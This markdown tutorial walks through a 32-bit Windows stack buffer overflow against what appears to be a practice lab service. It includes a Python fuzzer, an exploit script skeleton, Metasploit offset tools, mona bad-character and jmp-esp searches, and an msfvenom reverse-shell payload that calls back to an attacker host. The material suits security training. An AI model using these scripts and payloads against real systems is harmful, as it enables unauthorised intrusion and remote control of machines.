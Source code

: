 ```yaml
---
title: Windows BoF 32bit
category: Exploiting
order: 2
---
```


# Stack-Based

For that task we are going to use a Windows 7 x64 with Immunity Debugger and mona.py installed.

## Mona configuration

`!mona config -set workingfolder c:\mona\%p`

## Fuzz to find the vulnerable input

fuzzer.py

```
import socket, time, sys

ip = "10.10.95.202"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

## Crash Replication & Crontrolling EIP

exploit.py

```
import socket

ip = "10.10.95.202"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

create a pattern: `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600`

And add the output to a payload variable and exploited.

take notes about the EIP and search the offset:

`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q EIP`

Check adding `BBBB` value to `retn` variable.

## Finding Bad Characters

Find the characters that are not accepted on the payload. (REMEMBER FILL THE EIP)

`!mona bytearray -b "\x00"`

And add the output to the payload variable (without the offset)

Finally compare the binary file with the stack frame specifying the ESP.

`!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP>`

Repeat the process adding the new bad characters found until the results status returns **UNMODIFIED**

`!mona bytearray -b "\x00\x07\x2e\xa0"`

>**Note**: If the ESP direction does not match with the beginning of the payload fill it with NOPS (normally is `"\x90"\*8`)

## Finding a Jump Point

Find all "jmp esp" on the system `!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"`

>**Remember**: **Don't Forget** to put the **BAD CHARS** founded.

```
Log data, item 11
 Address=625011AF
 Message=  0x625011af : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\admin\Desktop\vulnerable-apps\oscp\essfunc.dll)
```

> **REMBEMBER LITTLE ENDIAN** `\x62\x50\x11\xAF (system) -> \xAF\x11\x50\x62 (exploit)`

Put the adress on the "retn" variable. If the EIP is the same as ESP you success at jummping to ESP.

## Generate the Payload

We will generate the payload with `msfvenom`.

> **Note**: Don't forget to put the previously found bad chars!

```
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.11.21.203 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f py

| sed 's/buf/payload/g'
```

> **Hint:** Using **EXITFUNC=thread** will only finish the thread once termintad the reverse shell without affecting the whole program. -> NO DoS

Copy the generated payload ant integrate it into the `exploit.py`

## Prepend NOPs

We will need some space in memory for the payload to unpack itself, if we added a padding before to match the beginning of the payload with ESP add another 16 NOPS.

```
padding = "\x90" * 16
```
